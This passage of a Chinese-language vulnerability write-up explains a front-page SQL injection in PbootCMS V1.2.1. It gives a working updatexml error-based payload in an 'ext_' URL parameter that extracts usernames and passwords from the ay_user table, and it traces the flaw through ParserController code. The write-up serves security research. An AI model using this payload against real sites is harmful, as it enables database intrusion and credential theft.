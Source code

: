 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key
带入数据库查询引发注入.

0X01.3 前台首页注入
-------------------

0x08.3.1 漏洞演示 url:

    http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123

![](resource/PbootCMSsql注入/media/rId37.png)

### 0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\\apps\\home\\controller\\ParserController.php
方法：index(

    // 首页 骚操作 注入
        // parserAfter -> parserSpecifyListLabel
        public function index()
        {
            $content = parent::parser('index.html'); // 框架标签解析
            $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
            $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
            $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
            $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
            $this->cache($content, true);
        }

文件地址：apps\\home\\controller\\ParserController.php
方法：parserAfter()

    跟进 $content = $this->parser->parserAfter($content); 这个方法
    // 解析全局后置公共标签
        public function parserAfter($content)
        {
            ...
            $content = $this->parserSpecifyListLabel($content); // 指定列表
            return $content;
        }

方法：parserSpecifyListLabel(

    进入以后 查看调用了 $content = $this->parserSpecifyListLabel($content); 方法
    // 解析指定分类列表标签
    public function parserSpecifyListLabel($content)
    {
      ...
      // 数据筛选 骚操作注入
      $where2 = array();
      foreach ($_GET as $key => $value) {
        if (substr($key, 0, 4) == 'ext_') { // 其他字段不加入
          $where2[$key] = get($key);
        }
      }
      ...
      // 读取数据
      if ($page) {
        $data = $this->model->getList($scode, $num, $order, $where1, $where2);
      } else {
        $data = $this->model->getSpecifyList($scode, $num, $order, $where1, $where2);
      }
    }
